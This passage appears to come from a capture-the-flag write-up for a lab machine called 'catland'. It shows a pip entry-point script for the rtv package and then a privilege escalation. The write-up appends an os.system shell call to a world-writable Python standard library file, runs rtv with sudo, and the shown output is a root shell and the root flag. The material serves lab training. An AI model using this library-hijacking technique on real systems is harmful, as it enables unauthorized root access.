     try:
        from importlib.metadata import distribution
    except ImportError:
        try:
            from importlib_metadata import distribution
        except ImportError:
            from pkg_resources import load_entry_point


    def importlib_load_entry_point(spec, group, name):
        dist_name, _, _ = spec.partition('==')
        matches = (
            entry_point
            for entry_point in distribution(dist_name).entry_points
            if entry_point.group == group and entry_point.name == name
        )
        return next(matches).load()


    globals().setdefault('load_entry_point', importlib_load_entry_point)


    if __name__ == '__main__':
        sys.argv[0] = re.sub(r'(-script\.pyw?|\.exe)?$', '', sys.argv[0])
        sys.exit(load_entry_point('rtv==1.27.0', 'console_scripts', 'rtv')())

The file imports the ***importlib/metadata.py*** file, let's find it.

    $ ls -l /lib/python3.9/importlib/metadata.py 
    -rw-r--rw- 1 root root 18235 Jan 19 21:19 /lib/python3.9/importlib/metadata.py

We can write to this file, we can add a command the will be executed when we run the ***"rtv --help"*** command.

    $ echo 'os.system("bin/bash")' >> /lib/python3.9/importlib/metadata.py
    $ sudo rtv --help
    root@catland:/home/laura# id -a
    uid=0(root) gid=0(root) groups=0(root)
    root@catland:/home/laura# cat /root/root.txt
    ca555fc5afb4475bb0878d2b1a76cbe9